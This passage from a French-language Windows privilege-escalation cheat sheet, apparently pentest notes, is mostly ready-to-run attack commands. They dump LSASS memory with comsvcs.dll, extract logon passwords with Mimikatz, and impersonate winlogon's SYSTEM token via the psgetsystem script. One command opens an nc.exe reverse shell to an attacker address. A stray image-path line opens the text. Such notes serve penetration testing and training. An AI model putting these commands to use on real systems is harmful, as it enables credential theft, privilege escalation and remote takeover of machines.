 ```cmd
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <pid> C:\temp\lsass.dmp full
```

### Mimikatz

Lire lsass.dmp avec Mimikatz

```cmd
mimikatz.exe
```

```cmd-session
log
privilege::debug
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```


## 2. SYSTEM RCE

> [!TIP]
> Exécute un sous processus a partir d'un processus parent lancé en tant que SYSTEM


Récuperer pid de winlogon (qui s'execute en tant que SYSTEM)

```powershell
Get-Process winlogon
```

### PSGetSystem

https://github.com/decoder-it/psgetsystem

```powershell
. .\psgetsys.ps1 
```

cmd local

```powershell
ImpersonateFromParentPid -ppid <parentpid> -command "c:\Windows\System32\cmd.exe" -cmdargs ""
```

reverse shell avec nc.exe

```powershell
ImpersonateFromParentPid -ppid <parentpid> -command "c:\Windows\System32\nc.exe" -cmdargs "<ip_attacker> <listener_port>"
```




---

# SeTakeOwnershipPrivilege
